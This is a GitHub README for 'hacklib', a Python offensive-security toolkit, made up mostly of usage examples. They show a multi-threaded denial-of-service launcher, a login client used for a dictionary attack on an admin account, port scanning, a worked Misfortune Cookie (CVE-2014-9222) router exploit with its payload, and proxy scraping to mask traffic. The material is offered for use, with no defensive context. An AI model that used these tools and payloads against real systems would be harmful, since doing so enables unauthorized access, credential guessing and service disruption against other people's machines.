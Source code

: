 # hacklib
![MIT License](https://img.shields.io/github/license/mashape/apistatus.svg)
[![Python 2.6|2.7](https://img.shields.io/badge/python-2.6|2.7-yellow.svg)](https://www.python.org/)
##### Toolkit for hacking enthusiasts using Python.
hacklib is a Python module for hacking enthusiasts interested in network security. It is currently in active development.

-
#### Installation
To get hacklib, simply run in command line:
```console
pip install hacklib
```
hacklib also has a user interface. To use it, you can do one of the following:

Download hacklib.py and run in console:
```console
python hacklib.py
----------------------------------------------
Hey. What can I do you for?


Enter the number corresponding to your choice.

1) Connect to a proxy
2) Target an IP or URL
3) Lan Scan
4) Exit

```
Or if you got it using pip:

```python
import hacklib
hacklib.userInterface()
```
-
#### Dependencies
Not all classes have external dependencies, but just in case you can do the following:
```python
hacklib.installDependencies()
```
-
#### Usage Examples
Multi-threaded Denial of Service (DOS) stress-testing:
```python
import hacklib

dos = hacklib.DOSer()
# Create 50 threads to send GET requests for 30 seconds
dos.launch('127.0.0.1', duration=30, threads=50)
```
-
Universal login client for almost all HTTP/HTTPS form-based logins and HTTP Basic Authentication logins:

```python
import hacklib

ac = hacklib.AuthClient()
# Logging into a gmail account
htmldata = ac.login('https://gmail.com', 'email', 'password')

# Check for a string in the resulting page
if 'Inbox' in htmldata: print 'Login Success.'
else: print 'Login Failed.'

# For logins using HTTP Basic Auth:
try: 
    htmldata = ac.login('http://somewebsite.com', 'admin', 'password')
except: pass #login failed
```
Simple dictionary attack using AuthClient:
```python
import hacklib

ac = hacklib.AuthClient()
# Get the top 100 most common passwords
passwords = hacklib.topPasswords(100)

for p in passwords:
    htmldata = ac.login('http://yourwebsite.com/login', 'admin', p)
    if htmldata and 'welcome' in htmldata.lower():
        print 'Password is', p
        break
```
-
Port Scanning:
```python
from hacklib import *

ps = PortScanner()
ps.scan(getIP('yourwebsite.com'))
# By default scans the first 1024 ports. Use ps.scan(IP, port_range=(n1, n2), timeout=i) to change default

# After a scan, open ports are saved within ps for reference
if ps.portOpen(80):
    # Establish a TCP stream and sends a message
    send(getIP('yourwebsite.com'), 80, message='GET HTTP/1.1 \r\n')
```

Misfortune Cookie Exploit (CVE-2014-9222) using PortScanner:
```python
>>> import hacklib

# Discovery
>>> ps = hacklib.PortScanner()
>>> ps.scan('192.168.1.1', (80, 81))
Port 80:
HTTP/1.1 404 Not Found
Content-Type: text/html
Transfer-Encoding: chunked
Server: RomPager/4.07 UPnP/1.0
EXT:
# The banner for port 80 shows us that the server uses RomPager 4.07. This version is exploitable.

# Exploitation
>>> payload = '''GET /HTTP/1.1
Host: 192.168.1.1
User-Agent: googlebot
Accept: text/html, application/xhtml+xml, application/xml; q=09, */*; q=0.8
Accept-Language: en-US, en; q=0.5
Accept-Encoding: gzip, deflate
Cookie: C107351277=BBBBBBBBBBBBBBBBBBBB\x00''' + '\r\n\r\n'
>>> hacklib.send('192.168.1.1', 80, payload)
# The cookie replaced the firmware's memory allocation for web authentication with a null bye.
# The router's admin page is now fully accessible from any web browser.
```
-
FTP authentication:
```python
import hacklib
ftp = hacklib.FTPAuth('127.0.0.1', 21)
try:
    ftp.login('username', 'password')
except:
    print 'Login failed.'
```
-
Socks4/5 proxy scraping and tunneling
```python
>>> import hacklib
>>> import urllib2
>>> proxylist = hacklib.getProxies() # scrape recently added socks proxies from the internet
>>> proxy = hacklib.Proxy()
>>> proxy.connect(proxylist) # automatically find and connect to a working proxy in proxylist
>>> proxy.IP
u'41.203.214.58'
>>> proxy.port
65000
>>> proxy.country
u'KE'
# All Python network activity across all modules are routed through the proxy:
>>> urllib2.urlopen('http://icanhazip.com/').read() 
'41.203.214.58\n'
# Notes: Only network activity via Python are masked by the proxy.
# Network activity on other programs such as your webbrowser remain unmasked.
# To filter proxies by country and type:
# proxylist = hacklib.getProxies(country_filter = ('RU', 'CA', 'SE'), proxy_type='Socks5')
```
